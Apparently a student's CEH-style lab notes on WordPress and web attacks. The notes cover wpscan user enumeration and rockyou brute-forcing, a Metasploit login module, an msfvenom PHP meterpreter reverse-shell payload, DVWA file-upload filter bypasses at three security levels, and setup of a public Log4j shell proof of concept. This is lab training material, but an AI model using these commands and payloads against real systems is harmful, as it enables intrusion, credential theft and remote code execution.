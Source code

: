 - `wpscan --url IP --enumerate u`
- `wpscan --url IP --enumerate u`
- `wpscan --url http://IP/wp-login.php --usernames username --passwords /usr/share/wordlists/rockyou.txt --max-threads 50`
- https://www.poftut.com/how-to-scan-wordpress-sites-with-wpscan-tutorial-for-security-vulnerabilities/
- https://blog.sucuri.net/2021/05/wpscan-how-to-scan-for-wordpress-vulnerabilities.html

`wpscan --url http://10.10.10.12:8080/CEH --api-token [api_token] --plugins-detection aggressive --enumerate u,vp --random-user-agent -v`

WP Password Bruteforce Using Metasploit
 
msfconsole
`use auxiliary/scanner/http/wordpress_login_enum`

###### DVWA - File Upload Vulnerability

- `msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.108 LPORT=4444 -f raw -o php_payload.php`
- use exploit/mutli/handler
- upload this payload to the dvwa file_inclusion
	1) Directly Upload payload `.php` file  ---> `Low Security`
	2) Rename the payload to `.jpeg` or `.png` and click uplaod on DVWA -->  capture upload request in Burpsuite rename it and click forward to upload the payload. --> `Medium Security`
	3) Add `GIF98` keyword at the top of the payload file --> Then Rename the payload  file into .jepg and upload it on DVWA --> Using Command Injection rename the file extension `| type or mv [path to file] [new filename]` to `.php` and click submit. --> `High Security`

###### Log4J Vulnerability

https://github.com/kozmer/log4j-shell-poc

>[!check] Log4j Vulnerability 
>`sudo apt install docker.io`
>git clone https://github.com/kozmer/log4j-shell-poc.git
>`docker build -t log4j-shell-poc .`
>`docker run --network host log4j-shell-poc`
>Access it on http://ip:8080
>Download Java JDK-8u202 https://www.oracle.com/in/java/technologies/javase/javase8-archive-downloads.html
>Extract the file 
>![](https://i.imgur.com/EDpdgWK.png)
![](https://i.imgur.com/KeFK5IY.png)
![](https://i.imgur.com/2FQijNu.png)
![](https://i.imgur.com/FomIJEk.png)
![](https://i.imgur.com/xYXcHx0.png)
![](https://i.imgur.com/tSnsrwB.png)
![](https://i.imgur.com/eIHvZqn.png)


